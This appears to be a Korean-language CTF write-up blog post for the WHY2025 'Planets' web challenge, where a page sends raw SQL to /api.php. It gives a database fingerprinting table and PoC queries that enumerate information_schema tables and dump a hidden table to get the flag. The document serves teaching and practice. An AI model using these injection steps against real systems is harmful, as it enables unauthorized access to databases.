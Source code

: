```yaml
---
layout: post
title: "[CTF] WHY2025 : PLANETS"
date: 2025-08-10 16:03 +0900
category: Write-Up
tag: [CTF, WHY2025CTF, web]
---
```

### **INFO**
![chall]
_Fig 1. Challenge_

### **RECON**
행성들의 사진과 설명을 보여주는 사이트가 주어진다.

정적 페이지로 버튼이나 폼 같은 요소들이 보이지 않아서, 소스코드를 분석하였다.
`<script>...<script>` 에 서버와 통신하는 api가 정의되어 있다. 이때 SQL문이 쿼리값으로 넘어가는 것을 확인할 수 있다.
``` js
<script>
        try {
            fetch("/api.php", {
                method: "POST",
                body: "query=SELECT * FROM planets",    // 취약한 부분
                headers: {"Content-type": "application/x-www-form-urlencoded; charset=UTF-8"},
            })
            .then(response => response.json())
            .then(response => addPlanets(response))
        } catch (error) {
            console.error(error.message);
        }
        
	function addPlanets(planets){

            let container  = document.getElementById("container");
            for (planet in planets){
                let div = document.createElement("div");
                div.classList = "planet";
    
                let h2 = document.createElement("h2");
                h2.textContent = planets[planet].name;
    
                let img = document.createElement("img");
                img.src = "images/" + planets[planet].image;
                img.alt = planets[planet].name;
    
                let p = document.createElement("p");
                p.textContent = planets[planet].description;
    
                div.appendChild(h2);
                div.appendChild(img);
                div.appendChild(p);
                container.appendChild(div);
            }
	}
</script> 
```

이를 burp suite로 네트워크 패킷을 캡처하여 보면 req/res는 Fig 2와 같다. SQL 구문 변조를 통해 원하는 값을 출력할 수 있다는 것을 알 수 있다.

![recon_1]
_Fig 2. POST /api.php_

### **SOLUTION**
취약한 API를 통해 플래그를 획득하는 과정을 순서대로 설명한다.

먼저 어떤 DB를 사용하고 있는지 알기 위해 [PentestMonkey cheat sheets](https://pentestmonkey.net/category/cheat-sheet/sql-injection)를 참고하여 DB 종류를 식별했다.

DB 식별을 위해 사용한 SQL문은 다음과 같다.

| DBMS            | 버전 확인 쿼리                   | 예시 출력                                   | 
|-----------------|--------------------------------|--------------------------------------------|
| MySQL           | `SELECT @@version;`            | {DB_VERSION}-{BUILD_INFO}                  |
| PostgreSQL      | `SELECT version();`            | PostgreSQL {DB_VERSION} on {BUILD_INFO}... |
| Oracle          | `SELECT * FROM v$version;`     | Oracle Database {DB_VERSION} ...           |
| SQLite          | `SELECT sqlite_version();`     | 3.46.0                                     |

캡쳐한 네트워크 패킷(Fig 2)을 repeater에 넣고 재전송을 시도하다보면, MySQL을 사용했다는 것을 알 수 있다.

그 다음 순서는 의심가는 테이블을 식별하고, 데이터를 출력하여 플래그를 획득하는 것이다.
MySQL의 information_schema.tables에서 테이블에 대한 정보를 볼 수 있다. 

개인적으로 abandoned_planets 테이블이 가장 의심스러웠다.

이 테이블의 데이터를 출력해보면, 플래그를 확인 할 수 있다.
![solution_result]
_Fig 3. Get Flag!_

### **POC**
/api.php에 POST를 하면서 사용한 SQL 쿼리를 정리했다.

```sql
/*** 0. SQL 식별 ***/
SELECT @@version;

/*** 1. 테이블 출력 ***/
SELECT table_schema,table_name 
FROM information_schema.tables 
WHERE table_schema != 'mysql'
AND table_schema != 'information_schema';
/* 출력: 
    [ ... , 
        {"TABLE_SCHEMA": "performance_schema", "TABLE_NAME": "variables_info"},
        {"TABLE_SCHEMA": "planets", "TABLE_NAME": "abandoned_planets"},
        {"TABLE_SCHEMA": "planets", "TABLE_NAME": "planets"}
    ]
*/

/*** 2. abandoned_planets의 열 출력 ***/
SELECT * FROM abandoned_planets;
/* 출력:
    [
        {
            "id": 1,
            "name": "Pluto",
            "image": "pluto.png",
            "description": "Have you heard about Pluto? That's messed up right? flag{...}"
        }
    ]
*/

```
[chall]: /assets/CTF/WHY2025/planets/challenge.png
[recon_1]: /assets/CTF/WHY2025/planets/recon_1.png
[solution_result]: /assets/CTF/WHY2025/planets/solution_result.png
